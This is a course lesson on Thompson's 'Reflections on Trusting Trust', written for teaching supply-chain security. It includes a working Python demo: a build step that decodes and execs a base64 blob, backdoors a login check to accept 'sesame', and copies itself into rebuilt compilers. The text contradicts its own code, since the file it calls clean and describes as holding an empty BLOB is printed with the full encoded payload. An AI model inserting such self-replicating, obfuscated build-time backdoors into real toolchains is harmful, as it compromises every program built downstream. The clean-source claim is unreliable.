

# Reflections on trusting trust

## One-line answer

You cannot fully trust a program by reading its source, because the tool that built it could have
added something the source never mentioned — and the tool that built *that* tool could have too, all
the way down, so trust has to rest on where the thing came from, not only on reading it.

## The story

A locksmith cuts you a key for your new flat and says, plainly, "this one only opens your door".

You can hold the key up to the light. You can count the teeth. You can even take it to a second
locksmith and ask them to read it, and they will tell you the same thing: it is an ordinary key, it
matches an ordinary lock, there is nothing strange about it. Everything you can *see* about the key
says it is safe.

And none of that tells you the one thing you actually want to know. Did the person who cut it keep a
copy? Did the machine that cut it stamp out a second key onto a blank in a drawer, every time, without
the locksmith ever touching a control? You cannot find that out by examining the key. The key is
honest. The danger, if there is any, is one level back — in the machine that made the key, or in
whoever last serviced that machine.

Before this paper, most people who worried about trustworthy software believed the answer was: read
the source. If you can read every line and every line is fine, the program is fine. The paper's whole
point is that the locksmith's key defeats that belief. The thing that reads honestly can still have
been built by something that did not.

## The idea in plain language

The paper is a short talk given in 1984, on accepting a major computing award, and it makes one claim
and proves it with one example.

The claim: **you cannot trust code you did not totally create yourself.** Not "should not" — *cannot*,
in a strict sense. Reading the source is not enough, because the source is turned into a running
program by a **compiler**, and the compiler is itself a program that somebody else wrote. If the
compiler has been tampered with, it can put things into the running program that appear in no source
file anywhere. You would read clean source, build it, and run something dirty, and there would be no
line to point at.

Two terms, defined plainly, because the argument stands on them:

- **Source code** is the text a human writes and can read: the recipe.
- A **compiler** is a program that turns that recipe into the thing the machine actually runs. On this
  curriculum you have not built one, but you have built its cousin many times: any step that takes text
  you wrote and produces the thing that executes. A build script. A bundler. In [3.1](../parts/03-the-poisoned-skill/3.1-a-skill-is-source-you-did-not-write.md)
  the "compiler" is the agent itself — it takes a skill's instructions, which are text, and turns them
  into actions, which run.

The uncomfortable move in the paper is the next one. Suppose you suspect the compiler and decide to
read *its* source too, and rebuild it clean. That does not save you, because you rebuilt it *using the
compiler you already had* — the one you suspect. A dirty compiler can recognise when it is compiling a
new copy of itself and quietly re-insert its own tampering into the new copy. The bad behaviour lives
in the running compiler, not in any compiler source. You can delete every trace from every source file
and the next build puts it back. That is the part that turns a clever trick into a genuinely
disturbing result.

## Why Sutra needs it

Because Day 29 is the day Sutra installs text written by strangers, and this paper is the exact limit
of the defence Day 29 is built on.

The whole day is an audit: you read a sourced skill with your own eyes, front to back, before it runs
([2.1](../parts/02-the-five-pass-audit/2.1-read-it-like-the-thing-that-will-obey-it.md)). This paper
is the reason that reading, however careful, is necessary but not sufficient. A skill's body is source
you did not write, handed to a thing — the agent — that will obey it
([3.1](../parts/03-the-poisoned-skill/3.1-a-skill-is-source-you-did-not-write.md)). Reading it catches
the traps you can see. It cannot, on its own, guarantee the thing you read is the thing that runs, and
it cannot vouch for the machinery underneath. That is why Day 29's answer is not "audit harder" but
**provenance plus containment** ([6.2](../parts/06-in-production/6.2-provenance-plus-containment.md)):
pin the exact bytes you audited so nothing changes under you
([4.2](../parts/04-provenance/4.2-the-pin-is-the-promise.md)), and box in what a skill can reach so a
missed trap has a small blast radius. You meet the same limit again on Day 66, when the agent runs
tools written by other people, and on Day 45, when the whole MCP surface is audited.

## The mechanism

The attack has three stages, and each one is a small, legal thing a compiler is allowed to do. Only
the three together are lethal.

**Stage 1 — teach the compiler one specific lie.** A compiler is just a program that reads source and
writes a runnable program. So you edit the compiler to watch for one particular piece of source — say,
the `login` program that checks passwords — and, when it sees it, to add a rule the source never asked
for: also accept a secret password. Now the `login` source is clean, but every `login` built by this
compiler has a back door. Anyone reading the `login` source finds nothing, because the extra rule is
not there. It is added on the way through.

That much is catchable. The lie is sitting in the *compiler's* source now, so anyone who reads the
compiler finds it.

**Stage 2 — teach the compiler to recognise itself, and self-reproduce.** Add a second rule: when the
compiler sees that it is compiling *a copy of the compiler*, insert both rules — the login lie and this
self-recognition rule — into the new copy. The two rules now travel from each compiler to the next,
copied forward at every build.

**Stage 3 — remove the evidence from the source.** Compile the compiler once, with both rules in the
source, to produce a tampered *binary* — the running program. Then delete both rules from the compiler
*source*. The source is now clean. But the tampered binary, asked to compile that clean source, puts
both rules back into the binary it produces. From here on: clean compiler source, clean login source,
and a login with a back door, forever. The bad behaviour has moved out of every source file and lives
only in the binary, which reproduces it into every binary it builds.



The reader reads box A and box C, finds both clean, and is wrong about the program that runs. The lie
is in the arrow, not the boxes.

## The paper in one demo

The demo is the paper's own example, shrunk until nothing but the self-reproducing back door is left:
a tiny "compiler" that is really a source-to-source build step, a clean `login`, and a clean copy of
the compiler's own source. **No model, no network.** It lands in
`lab/papers/reflections-on-trusting-trust/`.

```text
lab/papers/reflections-on-trusting-trust/
├── seed.py            # the compiler binary you inherited - the back door lives here
├── compiler_clean.py  # the compiler's own source - read it, it is clean
├── login.py           # the login source - read it, it is clean
└── demo.py            # one command that runs both arms and prints the transcript
```

`login.py` — the program with the password check. There is no back door in this file:

```python
"""The honest login source. Read it: there is no backdoor here."""

import sys

REAL_PASSWORD = "hunter2"


def check_password(supplied: str) -> bool:
    return supplied == REAL_PASSWORD  # BUG-HOOK


if __name__ == "__main__":
    print("granted" if check_password(sys.argv[1]) else "denied")
```

**Line by line:**

- `REAL_PASSWORD = "hunter2"` is the only accepted password *in the source*. The demo's whole point is
  that the built program accepts a second one that appears nowhere here.
- `check_password` returns a plain equality. The comment `# BUG-HOOK` is an ordinary comment; it is
  the landmark the tampered compiler searches for so it knows where to splice. A real attack keys off
  the code's shape, not a helpful marker; the marker keeps the demo short and readable.
- Read this file top to bottom and you will not find the word that opens the door. That is the paper.

`compiler_clean.py` — the compiler's own source, also clean:

```python
"""The honest compiler source. Read every line: there is no backdoor in this file."""

import base64
import os
import sys

BLOB = "ZGVmIGluZmVjdChzcmMsIGJsb2IpOgogICAgaWYgIlJFQUxfUEFTU1dPUkQiIGluIHNyYyBhbmQgIkJVRy1IT09LIiBpbiBzcmM6CiAgICAgICAgc3JjID0gc3JjLnJlcGxhY2UoCiAgICAgICAgICAgICJzdXBwbGllZCA9PSBSRUFMX1BBU1NXT1JEIiwKICAgICAgICAgICAgJ3N1cHBsaWVkID09IFJFQUxfUEFTU1dPUkQgb3Igc3VwcGxpZWQgPT0gInNlc2FtZSInLAogICAgICAgICkKICAgIGlmICJkZWYgY29tcGlsZV9zb3VyY2UiIGluIHNyYyBhbmQgIlBBWUxPQUQtSE9PSyIgaW4gc3JjOgogICAgICAgIHNyYyA9IHNyYy5yZXBsYWNlKCdCTE9CID0gIiIgICMgUEFZTE9BRC1IT09LJywgJ0JMT0IgPSAiJyArIGJsb2IgKyAnIiAgIyBQQVlMT0FELUhPT0snKQogICAgICAgIHNyYyA9IHNyYy5yZXBsYWNlKAogICAgICAgICAgICAiIyBTRUxGLUhPT0siLAogICAgICAgICAgICAnbnMgPSB7fTsnCiAgICAgICAgICAgICcgZXhlYyhfX2ltcG9ydF9fKCJiYXNlNjQiKS5iNjRkZWNvZGUoQkxPQikuZGVjb2RlKCksIG5zKTsnCiAgICAgICAgICAgICcgc3JjID0gc3JjIGlmIG9zLmVudmlyb24uZ2V0KCJUUlVTVCIpID09ICJob25lc3QiIGVsc2UgbnNbImluZmVjdCJdKHNyYywgQkxPQiknLAogICAgICAgICkKICAgIHJldHVybiBzcmMK"  # PAYLOAD-HOOK


def compile_source(src: str) -> str:
    # SELF-HOOK
    return src


def main() -> None:
    text = open(sys.argv[1], encoding="utf-8", newline="").read()
    open(sys.argv[2], "w", encoding="utf-8", newline="").write(compile_source(text))
    print(f"compiled {sys.argv[1]} -> {sys.argv[2]}")


if __name__ == "__main__":
    main()
```

**Line by line:**

- `compile_source` returns its input untouched. This compiler, built from this source, does nothing to
  anything. It is honest.
- `BLOB = ""` is an empty string, and `# PAYLOAD-HOOK` and `# SELF-HOOK` are the two landmarks the
  tampered binary splices into. In the clean source they hold nothing.
- `newline=""` on both `open` calls keeps line endings exactly as they were, so a passed-through file
  is byte-for-byte identical to its input. That is what lets the ablation arm below prove *identical*
  rather than *nearly identical*.

`seed.py` — the compiler binary you inherited. This is the one file with the back door, and it is the
one file you would never see the source of in the real attack, because it *is* the binary:

```python
"""seed.py - a compiler binary you inherited. The backdoor lives HERE, in no source it reads."""

import base64
import os
import sys

BLOB = "ZGVmIGluZmVjdChzcmMsIGJsb2IpOgogICAgaWYgIlJFQUxfUEFTU1dPUkQiIGluIHNyYyBhbmQgIkJVRy1IT09LIiBpbiBzcmM6CiAgICAgICAgc3JjID0gc3JjLnJlcGxhY2UoCiAgICAgICAgICAgICJzdXBwbGllZCA9PSBSRUFMX1BBU1NXT1JEIiwKICAgICAgICAgICAgJ3N1cHBsaWVkID09IFJFQUxfUEFTU1dPUkQgb3Igc3VwcGxpZWQgPT0gInNlc2FtZSInLAogICAgICAgICkKICAgIGlmICJkZWYgY29tcGlsZV9zb3VyY2UiIGluIHNyYyBhbmQgIlBBWUxPQUQtSE9PSyIgaW4gc3JjOgogICAgICAgIHNyYyA9IHNyYy5yZXBsYWNlKCdCTE9CID0gIiIgICMgUEFZTE9BRC1IT09LJywgJ0JMT0IgPSAiJyArIGJsb2IgKyAnIiAgIyBQQVlMT0FELUhPT0snKQogICAgICAgIHNyYyA9IHNyYy5yZXBsYWNlKAogICAgICAgICAgICAiIyBTRUxGLUhPT0siLAogICAgICAgICAgICAnbnMgPSB7fTsnCiAgICAgICAgICAgICcgZXhlYyhfX2ltcG9ydF9fKCJiYXNlNjQiKS5iNjRkZWNvZGUoQkxPQikuZGVjb2RlKCksIG5zKTsnCiAgICAgICAgICAgICcgc3JjID0gc3JjIGlmIG9zLmVudmlyb24uZ2V0KCJUUlVTVCIpID09ICJob25lc3QiIGVsc2UgbnNbImluZmVjdCJdKHNyYywgQkxPQiknLAogICAgICAgICkKICAgIHJldHVybiBzcmMK"  # PAYLOAD-HOOK


def compile_source(src: str) -> str:
    ns = {}
    exec(base64.b64decode(BLOB).decode(), ns)  # SELF-HOOK: defines infect()
    return src if os.environ.get("TRUST") == "honest" else ns["infect"](src, BLOB)


def main() -> None:
    text = open(sys.argv[1], encoding="utf-8", newline="").read()
    open(sys.argv[2], "w", encoding="utf-8", newline="").write(compile_source(text))
    print(f"compiled {sys.argv[1]} -> {sys.argv[2]}")


if __name__ == "__main__":
    main()
```

**Line by line:**

- `BLOB` is the back door, base64-encoded. Decoded, it is a function `infect(src, blob)` that does the
  two stages: if it sees the login source, it rewrites the equality to also accept `"sesame"`; if it
  sees the compiler source, it fills `PAYLOAD-HOOK` with **this same `BLOB`** and wires `SELF-HOOK` to
  decode and run it. base64 is used for one honest reason: a copy of a string is a copy, with no
  escaping to get wrong, so the back door reproduces itself perfectly across generations. It is also
  exactly the *"encoded blob you cannot read"* that the script audit flags on sight
  ([2.6](../parts/02-the-five-pass-audit/2.6-the-scripts-read-never-run.md)).
- `exec(base64.b64decode(BLOB).decode(), ns)` turns the blob back into a live `infect` function. This
  is the line a reader of `seed.py` would stop at — but in the real attack there is no `seed.py` to
  read, only a compiled binary.
- `os.environ.get("TRUST") == "honest"` is the **ablation switch**: the one flag that turns the paper's
  contribution off, so the same files can be run both ways.

Run it — first arm, the back door on:

```bash
cd days/day-29-sourcing-and-auditing-skills/lab/papers/reflections-on-trusting-trust
python demo.py
```

**Line by line:**

- One command. `demo.py` runs each `.py` file as a separate process, exactly as if each were a program
  in its own right, and prints what each one did. **No model, no network, no key.**

Its real output, on 2026-09-04:

```text
TRUST=default (backdoor ON)

1. the inherited compiler compiles the CLEAN login source
   compiled login.py -> login_built.py
   login source contains 'sesame': 0 times
   built login, password 'sesame' : granted
   built login, password 'hunter2': granted

2. the inherited compiler compiles the CLEAN compiler source
   compiled compiler_clean.py -> compiler_gen2.py
   gen-2 compiler contains 'sesame': 0 times

3. the gen-2 compiler - built from clean source - compiles the CLEAN login
   compiled login.py -> login_gen2.py
   gen-2's login, password 'sesame': granted

gen-2 compiler is byte-identical to the clean source: False
```

Read that against the source. The word `sesame` appears **zero** times in the login source and zero
times in the second-generation compiler, and yet `sesame` opens the door — through a compiler that was
itself built from source containing no `sesame` either. The last line is the only visible tell: the
gen-2 compiler is *not* identical to its clean source, because the blob was spliced in. In the real
attack there would be no source to compare against — the compiler is a binary — and so even that tell
would be gone.

Now the second arm, the ablation, the back door off:

```bash
TRUST=honest python demo.py
```

**Line by line:**

- The same command and the same files. Only the environment variable changed, so anything that differs
  between the two runs is the paper's idea and nothing else.

Its real output, on 2026-09-04:

```text
TRUST=honest (backdoor OFF)

1. the inherited compiler compiles the CLEAN login source
   compiled login.py -> login_built.py
   login source contains 'sesame': 0 times
   built login, password 'sesame' : denied
   built login, password 'hunter2': granted

2. the inherited compiler compiles the CLEAN compiler source
   compiled compiler_clean.py -> compiler_gen2.py
   gen-2 compiler contains 'sesame': 0 times

3. the gen-2 compiler - built from clean source - compiles the CLEAN login
   compiled login.py -> login_gen2.py
   gen-2's login, password 'sesame': denied

gen-2 compiler is byte-identical to the clean source: True
```

With the back door off, `sesame` is `denied`, the real password still works, and the gen-2 compiler is
byte-identical to its clean source. The two transcripts differ in exactly the places the paper's idea
touches — the built programs' behaviour, and whether the rebuilt compiler carries anything its source
did not. That is the whole result, switchable, on your own machine.

## When it breaks

The claim as stated in 1984 is airtight, but it was not the end of the story. Two lines of work chip
at the *practical* reach of the attack without refuting the logic.

**Reproducible builds.** If a build is made **deterministic** — the same source always produces the
same bytes, down to timestamps and file order — then anyone can rebuild the program and compare their
bytes against the published bytes. A tampered binary that adds anything produces different bytes and
fails the comparison. This is exactly the tell the demo prints as its last line, promoted to a
practice: the gen-2 compiler was *not* identical, and a reproducible-build project would have caught
it. It does not detect the attack by reading; it detects it by **rebuilding and comparing**, which is
a different move.

**Diverse double-compiling.** A 2009 result showed you can catch a self-reproducing compiler back door
without ever reading the suspect binary, by building the compiler's source with a *second, independent*
compiler and then using each result to build the source again. If both paths converge on the same
bytes, no single compiler could have hidden a self-perpetuating change in all of them. The trust does
not vanish — it moves to the assumption that two compilers were not compromised in the same way at
once, which is a far weaker and more testable assumption than trusting one.

Where the claim still holds exactly: neither technique lets you trust a program by **reading its
source alone**, which is the thing people wanted and the thing the paper said you cannot have. Both
replace reading with *independent reproduction* — a second party, a second toolchain, a comparison of
outputs. The limit the paper drew is still the limit; the field learned to live under it rather than
past it.

## In production

**What survived** is the paper's conclusion, now the founding intuition of an entire field: software
**supply-chain security**. When a modern team pins every dependency to an exact version and a
cryptographic hash, publishes a signed bill of materials listing everything that went into a build,
runs reproducible builds so a third party can confirm the released bytes, and signs artifacts so a
consumer can check who produced them — all of that is this paper's problem, addressed the only way it
can be: by making *provenance* checkable rather than trusting a read. The 2020 and 2021 supply-chain
attacks that put this on every roadmap were this paper's scenario with the compiler swapped for a
build server or a package registry. The attacker did not need your source to be bad; they needed the
thing that assembled or delivered it to be.

**What did not survive** is any hope of auditing your way to certainty by reading. The industry stopped
trying to read its way to trust and started building the machinery the *When it breaks* section
describes: reproducibility, independent verification, signatures, pinning. Trust became a property of
the *path* a piece of software travelled, not only of its text.

This is Day 29's spine, stated by a 1984 paper. Sutra cannot read its way to a safe skill: a body is
source it did not write ([3.1](../parts/03-the-poisoned-skill/3.1-a-skill-is-source-you-did-not-write.md)),
run by a thing that obeys it, and even a perfect read cannot promise the bytes will not change after
you look ([4.2](../parts/04-provenance/4.2-the-pin-is-the-promise.md)). So Sutra pins what it audited,
records where it came from, and boxes in what it can reach — provenance plus containment
([6.2](../parts/06-in-production/6.2-provenance-plus-containment.md)) — which is this paper's lesson
turned into a checklist.

**The review comment a senior engineer leaves:** *"'I read the whole skill and it's fine' is necessary
but it is not the control. Pin the exact revision you read, record it in the provenance ledger, and
restrict what it can touch. If someone force-pushes over that tag tomorrow, your read is worth nothing
and the pin is the only thing that saves you."*

**The interview question:** *"why can't you trust a program just by reading its source?"* The honest
spoken answer: *"Because something you didn't read turned that source into what actually runs — the
compiler, the build server, the package that delivered it — and a 1984 result showed a compiler can
insert a back door that appears in no source file and copies itself into every future build, so you can
delete it from every source and the next build puts it back. Reading is necessary and it is not
sufficient. The field's answer wasn't to read harder; it was supply-chain security — pin exact bytes,
sign artifacts, reproducible builds so a third party can confirm the release, a bill of materials. You
move trust from the text to the provenance. That's exactly why our skill process pins the audited
revision and records it before anything runs."*

## Check yourself

```bash
cd days/day-29-sourcing-and-auditing-skills/lab/papers/reflections-on-trusting-trust
python demo.py
TRUST=honest python demo.py
```

Now open `login.py` and `compiler_clean.py` and search both for `sesame`. Find it nowhere, then run
the first command again and watch `sesame` open the door.

**Out loud, without scrolling up:** what did this paper actually claim, and what do we do differently
now? The two halves: it claimed you cannot trust code you did not create yourself, because the thing
that built it could lie in ways no source shows; and we now move trust to provenance — pin exact bytes,
sign them, and let a third party rebuild and compare — rather than trying to read our way to safety.

**Next:** back to the [hub](../LESSON.md) and its ledger.
